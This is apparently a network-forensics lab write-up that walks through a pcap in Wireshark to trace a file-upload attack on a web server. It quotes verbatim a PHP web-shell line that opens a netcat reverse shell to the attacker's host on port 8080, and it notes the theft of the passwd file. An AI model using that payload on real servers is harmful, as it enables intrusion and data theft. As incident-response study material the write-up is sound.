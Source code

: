 ```yaml
---
categories: [DFIR, Network Forensics]
tags: [wireshark, web attacks]
---
```


## Scenario

> An anomaly was discovered within our company’s intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

- This is a simple case of Geolocating using IP addresses. In Wireshark, I found the attacker’s IP by going to Statistics => Conversations => IPv4. The IP address of the attacker is 117.11.88.128. Plugging this into ipgeolocation.io, I get the country of China and the city of **Tianjin**.

![ipgeolocation.io reponse](https://cdn-images-1.medium.com/max/2000/1*G7Itdk1-5CvYizLZpG3r5w.png)_ipgeolocation.io reponse_

2. Knowing the attacker’s user-agent assists in creating robust filtering rules. What’s the attacker’s user agent?

- The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it’s the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0.

3. We need to identify if there were potential vulnerabilities exploited. What’s the name of the malicious web shell uploaded?

- Going to the Statistics => Protocol Hierarchy, I immediately saw “Compuserve GIF”

![Wireshark snapshot](https://cdn-images-1.medium.com/max/2000/1*_d772Rdy7xBy4DfDX1wM5w.png)_Wireshark snapshot_

- I remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the upload(2).php file, we can see that a filename of “image.png.php” was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker’s IP address on port 8080. This essentially establishes a reverse shell, allowing the attacker to interact with the compromised server remotely.

- Line of code:

     <?php system(“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f”);

4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?

- Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the [http://shoporoma.com/reviews/uploads/](http://shoporoma.com/reviews/uploads/`) directory, indicating that the malicious script was stored there.

![](https://cdn-images-1.medium.com/max/2000/1*ozG3rBs0jLdF2E9yq-81uw.png)

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

- This was straightforward, as we already found out from the PHP snippet that the attacker leverages port 8080.

6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

- Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwdfile, which was the goal of the attacker.

![](https://cdn-images-1.medium.com/max/2000/1*N4pXXpyKflvtigqanP-PJA.png)

## **Summary**

In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (upload(2).php). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the **passwd **file containing passwords for different accounts.
